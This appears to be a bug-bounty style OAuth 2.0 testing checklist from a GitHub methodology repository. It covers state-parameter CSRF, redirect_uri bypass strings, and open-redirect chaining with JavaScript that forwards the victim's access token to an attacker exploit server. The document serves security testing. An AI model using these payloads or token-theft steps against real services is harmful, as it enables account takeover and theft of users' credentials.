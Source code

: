 # OAuth 2.0 Testing Checklist

Start by creating two accounts on your target of choice. Let's call one victim and one attacker. 

## Recon

1) Once you've located an OAuth flow on the app, connect one of your accounts and make sure the flow get's captured in the history. What kind of flow is it using? Code grant, or implicit grant? Something else?
2) If you find that it's using the Implicit Grant flow, try to identify the POST request which sends the credentials. Can you modify the email to your victim account and get connecting to their account instead of yours? If not, move on. 
3) Check to see if `/.well-known/oauth-authorization-server` or `/.well-known/openid-configuration` endpoints exist on the OAuth provider (not the content provider). This may give you key information in a JSON response body. Save anything interesting you may find and move on. 

## Testing for CSRF account takeover

1) Check to see if there's a state= parameter. If not, you may be able to initiate an OAuth CSRF. **I believe this is only applicable if you can sign in via email/password OR linking a social media account. You need a way to create an attacker account but still have an option to link a social media profile to it.**
	 - Create an account using your attacker's email and a password. Do not link a social media profile. Do the same for the victim account. 
	 - Locate where you can link a social media profile and initiate the flow, making sure Intercept is on in the Burp Proxy. 
	 - Once you arrive at the request containing all the OAuth parameters, send it to Repeater, drop the request, and stop capturing traffic in the proxy.
	 - Now make the captured request with your victim instead of the attacker who initiated the flow. 
	 - Try logging in again as the attacker and see if you have access to the victim's account. If so, bingo. **Keep in mind that for this to work you would need a victim account to also have created an account via password and not have linked a social media profile yet. The idea is getting your social media account associated with their password-based account.**
2) Even if the state= parameter exists, try the same steps as above, but remove the parameter. Perhaps if it's removed it will simply be ignored.Try a third time but the value of the state parameter by one char. Maybe it's not actually validating the state parameter. In either case you found a vulnerable instance.

	**If the only option to log in is via OAuth, the state parameter is less critical, but you may be able to trick a victim into logging in to your account. YMMV**

## Testing the redirect_uri

In this example, we will use http://wearelucid.io as the exploit server. 

1) Authenticate your victim email to the application via OAuth. This attack only works on victims who have valid OAuth credentials. Make sure you take note of all requests and responses, especially the one that sends to code to the OAuth provider. You'll need to manually make this request as the attacker in order to complete the exploit. 
2) As the victim try signing in via OAuth and intercepting the OAuth request containing the request_uri parameter. Send it to the Repeater, drop the request in the Proxy and stop intercepting.
3) Begin testing the validation of the request_uri parameter. Try these tests...
	- Changing the value of the request_uri parameter to an entirely different server that you control (Burp collaborator or a VPS) but with the same oauth directory
	- Try keeping the original redirect_uri, but appending a second one with your exploit server `redirect_uri=https://valid.server.com/oath-callback&redirect_uri=http://wearelucid.io/oauth-callback`
	- Try appending values onto the end of the valid redirect uri parameter. Typical SSRF bypasses are good to try...
		```
		redirect_uri=https://valid.server.com/oauth-callback&http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback#http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback?http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback;http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback@http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback.http://wearelucid.io
		```
		or combinations of the above as well
    - Try reversing the above combinations e.g
    ```
    redirect_uri=https://wearelucid.io/oauth-callback&@https://valid.server.com
    ```
    - Attempt to configure a subdomain on your attack server with the name of the valid server e.g.
	```
	redirect_uri=http://valid.server.com.wearelucid.io/oauth-callback
	```
    - On the off chance that any URI with localhost in it's name is allowed, try this as well
```
	redirect_uri=http://localhost.wearelucid.io/oauth-callback
```
4) In addition to the above tests, try changing the response_mode= parameter from query to fragment, or vice versa. You may run into an entirely different validation schema in different modes. For example if you try the response_mode=web_message value, a wider range of subdomains may be allowed in the redirect_uri parameter. If you're feeling ambitious, go through the above bypasses again to see if there is any difference. 

**To prove exploitation**
1) If any of those work, initate an OAuth flow as your victim, capture the request containing the redirect_uri parameter, send it to the repeater, drop the request and stop intercepting. Then, as your victim in a different browser, visit the maliciously crafted URL
2) View your access log on your exploit server to see the stolen code the victim sent to you. As the attacker, copy the code and manually make the request that sends the code to the OAuth provider. Observe that you've logged in as the victim. Good job. 


## Stealing tokens and codes

If none of those bypasses work then the URI validation seems to be solid. At this point you'll want to try directory traversal methods and open redirect chaining. 

1) Try the proper redirect_uri= value, but with a directory traversal to another directory on the same server.
```
	redirect_uri=https://valid.server.com/oauth-callback/../some/other/directory
```
2) If that doesn't give you an error it's time to start looking for an open redirect vulnerability, or a URL with a GET parameter that has a reflected XSS on the same host. In the case of an open redirect...
	-  If authorization code, you should be able to just redirect to your own server and in your logs you wll see the code=value
	- If implicit grant you actually have a little more work to do. You will need to host code that extracts the URL fragment because it won't show up in logs. As an example...
	```javascript
	if(!window.location.hash) { 
		document.location = 'https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email' 
	} else { 
		window.location = '/?hash='+document.location.hash.substr(1) 
	}
	```

**To prove exploitation** 

If it's authorization code flow....

1) As the victim in a different browser, manually visit the vulnerable OAuth request https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email. You should see the code come through in your exploit server log. 
2) As the attacker in a separate browser or tab, send the code you stole to the OAuth provider: https://oauth.server.com/oauth-callback?code=(stolen_code)

If it's implicit grant....

1) Host the above Javascript code on your exploit server (or whatever code you deem works in this situation). 
2) Manually visit the same vulnerable OAuth request as the victim. You should see the access token in the exploit server logs.
3) As the attacker, try to make a request that only the logged in victim should be able to see the response to. Add the stolen code in the `Authorization: Bearer (stolen_code)` header to observer gaining unauthorized access to sensitive functionality.


### Resources

[Resources](https://github.com/djislucid/Methodology/Resources.md)
